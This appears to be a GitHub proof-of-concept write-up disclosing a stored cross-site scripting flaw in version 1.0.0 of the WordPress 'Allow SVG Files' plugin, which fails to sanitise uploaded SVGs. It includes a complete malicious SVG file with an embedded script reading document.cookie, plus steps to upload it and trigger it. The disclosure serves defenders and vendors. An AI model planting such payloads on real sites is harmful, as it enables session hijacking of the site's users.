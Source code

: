 # Cross Site Scripting Though SVG Files in "Allow SVG Files" Wordpress Plugin

This PoC describe how to exploit a Cross-Site Scripting (XSS) in Wordpress "Allow SVG Files" version 1.0.0

# Description

The "Allow SVG Files" v1.0.0, plugin for Wordpress does not sanitize the SVG Files, so it is possible to upload a malicious SVG File to get a XSS.

![1](https://user-images.githubusercontent.com/70114276/166060325-e8294eac-d0b8-452d-b682-f02ded4f7e5b.png)

## Attack Scenario

First we create our SVG file with this content:

![3](https://user-images.githubusercontent.com/70114276/165981536-9ee8b054-0275-4268-83c1-160039432cb2.png)

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

Then we upload the file to WordPress

![image](https://user-images.githubusercontent.com/70114276/166068854-1b37bcd9-cd82-42c1-9f40-7d9001817ef5.png)


To validate the PoC, simply access the directory where the file was sent.

![XSS](https://user-images.githubusercontent.com/70114276/166069072-81c9d17f-7f52-428d-9032-98e0f147008a.png)
